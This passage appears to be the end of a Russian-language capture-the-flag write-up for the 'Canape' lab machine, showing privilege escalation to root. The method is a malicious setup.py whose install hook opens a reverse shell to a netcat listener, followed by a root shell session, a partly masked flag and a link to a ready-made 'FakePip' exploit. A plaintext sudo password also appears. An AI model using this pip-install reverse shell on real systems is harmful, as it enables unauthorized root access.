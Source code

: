 ```python
		pty.spawn('/bin/bash')
		s.close()

setup(
	cmdclass={
		"install": Exploit
	}
)
```

```text
homer@canape:/dev/shm$ ls
setup.py

homer@canape:/dev/shm$ sudo -H /usr/bin/pip install .
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp
Processing /dev/shm
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ... -
```

```text
root@kali:~# nc -nlvvp 1337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.70.
Ncat: Connection from 10.10.10.70:52838.

root@canape:/tmp/pip-4x53u7-build# cd

root@canape:~# whoami
whoami
root

root@canape:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```text
root@canape:~# cat /root/root.txt
cat /root/root.txt
928c3df1????????????????????????
```

3\. Можно подурачиться:
```text
homer@canape:~$ sudo -H /usr/bin/pip install -r /root/root.txt
Collecting 928c3df1???????????????????????? (from -r /root/root.txt (line 1))
```

4\. И наконец, можно воспользоваться [готовым решением](https://github.com/0x00-0x00/FakePip "0x00-0x00/FakePip: Pip install exploit package"), если лень возиться самому (самый скучный вариант, имхо).
